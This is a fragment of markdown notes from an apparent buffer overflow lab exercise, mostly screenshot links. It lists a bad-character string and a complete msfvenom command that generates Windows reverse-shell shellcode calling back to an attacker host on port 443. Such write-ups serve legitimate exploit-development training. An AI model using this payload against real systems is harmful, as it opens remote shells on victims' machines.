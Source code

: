 ![of4badchar](assets/markdown-img-paste-20210904102310884.png)

![of4badcharcheck](assets/markdown-img-paste-20210904102525899.png)

![](assets/markdown-img-paste-20210904103240961.png)

Final bad char string: "\x00\xa9\xcd\xd4"

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\xa9\xcd\xd4"`

Same jumper as last command.

## OVERFLOW5
![of5fuzz](assets/markdown-img-paste-2021090410430799.png)

